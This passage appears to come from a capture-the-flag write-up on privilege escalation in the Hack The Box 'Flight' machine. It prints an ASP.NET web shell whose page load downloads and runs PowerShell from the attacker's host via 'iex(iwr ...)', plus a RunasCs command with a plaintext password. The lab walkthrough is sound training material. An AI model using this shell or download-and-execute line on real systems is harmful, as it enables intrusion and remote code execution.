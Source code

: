Upon fetching the file at [/images/j7An4l.php](http://school.flight.htb/images/j7An4l.php), we get a callback to our metasploit listener and establish a meterpreter session.

## Privilege Escalation

Using our meterpreter, we find out that there is a service running on port **8000** that we can only access locally.

```powershell
# svc_apache@flight.htb (powershell)
mkdir C:\Update
cd C:\Update
netstat -ano -p TCP | Tee-Object netstat.log
```
{:.nolineno}

Since this is a common alternate web port, we'll try to fetch [http://127.0.0.1:8000/]() using PowerShell.

```powershell
# svc_apache@flight.htb (powershell)
$r = IWR -UseBasic "127.0.0.1:8000"
$r.Headers
```
{:.nolineno}

The site seems to be running IIS with ASP.NET, which is interesting because the server we accessed before on port 80 was running Apache with PHP. The web root for this site should be somewhere in the `C:\inetpub`{:.filepath} folder, which is default for IIS sites.

```powershell
# svc_apache@flight.htb (powershell)
ls -Force C:\inetpub
```
{:.nolineno}

There are actually two web roots here: `C:\inetpub\wwwroot`{:.filepath} and `C:\inetpub\development`{:.filepath}, with the development site being the one in use. We become curious if any of our owned users, all of which have some relation to web development, can write to this folder. Let's check the ACL.

```powershell
# svc_apache@flight.htb (powershell)
Get-Acl C:\inetpub\development | fl
```
{:.nolineno}

It seems like _C.Bum_ can write to this folder. We could potentially use this access to upload an ASP web shell and get execution as the default IIS user. We'll use [RunasCs](https://github.com/antonioCoco/RunasCs) to move a web shell to that folder as _C.Bum_, making sure to replace the listener host in the web shell.

```html
<%@ Page Language="C#" Debug="true" Trace="false" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>

<script Language="c#" runat="server">
void Page_Load(object sender, EventArgs e) {
  ProcessStartInfo p=new ProcessStartInfo();
  p.FileName="powershell";
  p.Arguments="-Command iex(iwr -useb 10.10.14.9).content";
  Process.Start(p);
}
</script>
```
{:file="x.aspx"}
```powershell
# svc_apache@flight.htb (powershell)
.\RunasCs.exe C.Bum Tikkycoll_431012284 "whoami" # Verify execution
```